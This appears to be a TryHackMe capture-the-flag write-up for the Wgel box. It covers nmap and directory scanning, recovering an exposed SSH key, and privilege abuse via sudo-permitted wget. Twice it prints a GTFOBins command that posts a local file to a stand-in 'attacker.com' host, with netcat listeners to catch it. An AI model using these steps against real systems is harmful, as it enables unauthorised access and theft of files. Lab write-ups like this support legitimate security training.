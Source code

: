 # TryHackMe - Wgel CTF Writeup

## Tools used:

1. Nmap
2. Dirsearch
3. Gobuster
4. GTFOBins

## Scanning and Enumeration

NOTE: The machine's IP will be represented as **"10.10.x.x"** due to different IP's given by TryHackMe

Assuming you already have the machine's IP, run 4 Nmap scans to scan and enumerate the box

### Half TCP Scan

```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```

### Version scan / Banner grabbing

```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```

### Aggressive scan

```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```

### Nmap NSE vulnerability scan

```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```

The main interest here is the Half TCP and NSE scan. From the Half TCP scan, you'd see how many ports are open and for the NSE scan you'd see kind of an "outline" on what this port/service is vulnerable to.

From this point on, there isn't that much to explore here on the outside of the box.  
Shift your focus to the website hosted on port 80.

## Enumeration of the website

After visiting the website, you'd see a Apache2 Ubuntu default page and ignore the page and immediately enumerate the website.

The choice is up to you if you want to use Dirsearch or Gobuster but I personally use Gobuster but nonetheless here are the commands.

### Dirsearch

```
dirsearch -u http://10.10.x.x/ -t 120
```

### Gobuster

```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```

For people that are gonna ask why I have my extensions in a file, it's much better and I can make sure I don't miss out any file extension when enumerating.

After enumerating, the only accessible directory that you should see there is: http://10.10.x.x/sitemap/  
Go to that directory and you'll see a sort of a web page.

Going back to the first step, you should enumerate the website using either Dirsearch and Gobuster to find accessible files and directories.

While running Dirsearch or Gobuster, inspect the HTML source code of http://10.10.x.x/sitemap/ as it contains a username.  
After Dirsearch and Gobuster scans, you should see a /.ssh/ file, save it and login to SSH.

## SSH login and Privilege Escalation

After logging in to SSH, immediately extract the user flag on the /Documents/ directory if I'm not mistaken.  

For Privilege Escalation, if you run the command:

```
sudo -l
```

You'd see that the user is allowed to run wget with elevated privileges, to exploit this run the command below: 

```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
What the exploit means is that the **"--post-file"** option sends the contents of the file to the listening IP and port using the HTTP Post request.

Replace the URL variable with your listening IP and port, the LFILE with the file to read then enter the command line by line to the terminal. DON'T COPY AND PASTE IT STRAIGHT FROM GTFOBINS TO THE TERMINAL.

Before hitting "Enter", setup a listener on your Kali Linux Box.  
Use either of the two:

```
nc -lvnp 9999
```

```
ncat -lvnp 9999
```

After setting up the listeners, hit enter and you should see the root flag sent to your box.

## Conclusion

If there is anything that we both have learned today, it's that we can read and send the contents of a file to our box using the HTTP Post request by using the commmand below:

```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

We did not escalate our privileges using wget, however, we did take advantage/abuse SUID privileges to read the contents of restricted files.
